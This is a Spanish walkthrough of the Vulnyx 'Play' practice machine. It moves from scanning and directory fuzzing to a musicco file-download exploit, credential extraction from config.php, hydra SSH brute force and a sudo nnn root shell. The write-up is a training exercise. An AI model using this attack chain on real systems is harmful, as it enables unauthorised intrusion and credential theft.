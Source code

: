 
# Vulnyx Play

```bash
arp-scan -I eth0 --localnet
(IP-victima)
```

```bash
nmap -p 22,80 -sS -sC -sV -n -Pn (IP-victima) -oN nmap
```
- 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.56 ((Debian))

Dentro del puerto 80, efectivamente encontramos un servidor Apache. Haremos fuzzing para ver qué más encontramos.

```bash
wfuzz --hc=404 -u http://(IP-victima)/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```
- /playlist

Dentro de `http://(IP-victima)/playlist` encontramos una especie de reproductor de música, investigando un poco más encontramos que esto que vemos es un software llamado "musicco". Por lo tanto, buscaremos algún exploit para este software. Encontramos el siguiente exploit:

[https://www.exploit-db.com/exploits/45830](https://www.exploit-db.com/exploits/45830)

El cual nos permitirá descargar archivos dentro del programa. Podemos tener suerte y descargar alguna información delicada.

```bash
http://localhost/[PATH]/?getAlbum&parent=[Directory]&album=Efe
```

Para saber cuál es el directorio que tenemos que atacar usaremos wfuzz.

```bash
wfuzz --hc=404 --hl=0 -u 'http://(IP-victima)/playlist/?getAlbum&parent=FUZZ&album=Efe' -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```
- app
- lib
- theme
- temp

Al ejecutar:
```bash
http://(IP-victima)/playlist/?getAlbum&parent=app&album=Efe
```

Descargamos un archivo .zip. Al descomprimirlo encontramos un archivo llamado "config.php". Al leerlo encontramos unos posibles usuarios y contraseñas.

- array('admin', 'admin', 'true')
- array('guest', 'guest', 'false')
- array('unknown', 'iL0v3Mu$1c', 'false')

Al intentar ingresar vía SSH no nos permite con ninguno de los dos usuarios. Así que al tener una contraseña que parece correcta intentaremos hacer fuerza bruta de usuarios con esa contraseña válida a ver qué pasa.

```bash
hydra -L /home/kali/wordlists666/names.txt -p 'i********c' ssh://(IP-victima)
```
- [22][ssh] host: (IP-victima)   login: andy   password: i*********c

Ahora ingresamos vía SSH:
```bash
ssh andy@(IP-victima)
Pass: i***********c
```

```bash
whoami
andy
```

```bash
sudo -l
(root) NOPASSWD: /usr/bin/nnn
```

Al ejecutarlo como root, nos abre un menú. Al interactuar colocando "!" nos da directamente una consola como root. :D
